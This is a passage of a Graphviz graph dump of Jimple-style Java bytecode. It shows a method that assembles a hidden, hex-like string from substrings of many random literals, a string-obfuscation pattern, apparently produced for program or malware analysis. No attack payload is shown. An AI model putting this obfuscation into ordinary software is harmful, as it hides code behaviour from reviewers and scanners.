    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"r2f7vzc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"r2f7vzc\"";
    "push \"r2f7vzc\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"rDn722E7Zg\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"rDn722E7Zg\"";
    "push \"rDn722E7Zg\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"M82fU\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"M82fU\"";
    "push \"M82fU\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"M93D\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"M93D\"";
    "push \"M93D\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"TVb65ZL\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"TVb65ZL\"";
    "push \"TVb65ZL\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"B2eU\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"B2eU\"";
    "push \"B2eU\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"316d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"316d\"";
    "push \"316d\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"jk657LSk\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"jk657LSk\"";
    "push \"jk657LSk\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Za37uBP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Za37uBP\"";
    "push \"Za37uBP\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ESZy36\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ESZy36\"";
    "push \"ESZy36\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z16702\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z16702\"";
    "push \"Z16702\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"65dD4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"65dD4\"";
    "push \"65dD4\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"p20\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"p20\"";
    "push \"p20\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Gwqp3d7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Gwqp3d7\"";
    "push \"Gwqp3d7\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"tN5r20\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"tN5r20\"";
    "push \"tN5r20\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"U746p\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"U746p\"";
    "push \"U746p\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"86\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"86\"";
    "push \"86\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"fSY97y\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"fSY97y\"";
    "push \"fSY97y\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"CR337vUv\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"CR337vUv\"";
    "push \"CR337vUv\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"T0Kb72Ta\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"T0Kb72Ta\"";
    "push \"T0Kb72Ta\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"TN65qB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"TN65qB\"";
    "push \"TN65qB\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"U74Cz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"U74Cz\"";
    "push \"U74Cz\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"j75CS7a\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"j75CS7a\"";
    "push \"j75CS7a\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"K7263snN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"K7263snN\"";
    "push \"K7263snN\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"VBe2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"VBe2\"";
    "push \"VBe2\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ksv106R\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ksv106R\"";
    "push \"ksv106R\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"53bfDdD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"53bfDdD\"";
    "push \"53bfDdD\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"J7dVE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"J7dVE\"";
    "push \"J7dVE\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7C3b6k7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7C3b6k7\"";
    "push \"7C3b6k7\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"767Z\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"767Z\"";
    "push \"767Z\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ekKJ56yc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ekKJ56yc\"";
    "push \"ekKJ56yc\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"e3Le63j\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e3Le63j\"";
    "push \"e3Le63j\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"fp74\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"fp74\"";
    "push \"fp74\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6q69e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6q69e\"";
    "push \"6q69e\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0kr6f63q\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0kr6f63q\"";
    "push \"0kr6f63q\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0e20\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0e20\"";
    "push \"0e20\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7SLV53snAV\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7SLV53snAV\"";
    "push \"7SLV53snAV\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"gafr536jC1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"gafr536jC1\"";
    "push \"gafr536jC1\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"QVfj74\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"QVfj74\"";
    "push \"QVfj74\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4vPV76Gz6A\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4vPV76Gz6A\"";
    "push \"4vPV76Gz6A\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"86bZYG\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"86bZYG\"";
    "push \"86bZYG\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ZPB28\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ZPB28\"";
    "push \"ZPB28\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"v7jF736B\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"v7jF736B\"";
    "push \"v7jF736B\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"R1by74ST\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"R1by74ST\"";
    "push \"R1by74ST\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"72q1g\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"72q1g\"";
    "push \"72q1g\""->"push 0";
    "push 0"->"push 2";
    "push 2"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ab29JE2a\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ab29JE2a\"";
    "push \"Ab29JE2a\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8a7b6Z\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8a7b6Z\"";
    "push \"8a7b6Z\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yKRt93dP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yKRt93dP\"";
    "push \"yKRt93dP\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"p301M\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"p301M\"";
    "push \"p301M\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"nn3bQ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"nn3bQ\"";
    "push \"nn3bQ\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"rVhE6a3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"rVhE6a3\"";
    "push \"rVhE6a3\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lCd3fT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lCd3fT\"";
    "push \"lCd3fT\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"nb603KmF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"nb603KmF\"";
    "push \"nb603KmF\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3eb7d0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3eb7d0\"";
    "push \"3eb7d0\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"H46va\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"H46va\"";
    "push \"H46va\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"n869dm87\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"n869dm87\"";
    "push \"n869dm87\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"GU73zD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"GU73zD\"";
    "push \"GU73zD\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"a42e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"a42e\"";
    "push \"a42e\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"B746vM\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"B746vM\"";
    "push \"B746vM\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"bN5zf5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"bN5zf5\"";
    "push \"bN5zf5\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"BLu37456\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"BLu37456\"";
    "push \"BLu37456\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"M726fB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"M726fB\"";
    "push \"M726fB\""->"push 1";
    "push 1"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"96epLkW\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"96epLkW\"";
    "push \"96epLkW\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"GL6722\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"GL6722\"";
    "push \"GL6722\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ZL8n03dQWFe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ZL8n03dQWFe\"";
    "push \"ZL8n03dQWFe\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"206K\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"206K\"";
    "push \"206K\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"267uBh7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"267uBh7\"";
    "push \"267uBh7\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"T56rAf\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"T56rAf\"";
    "push \"T56rAf\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
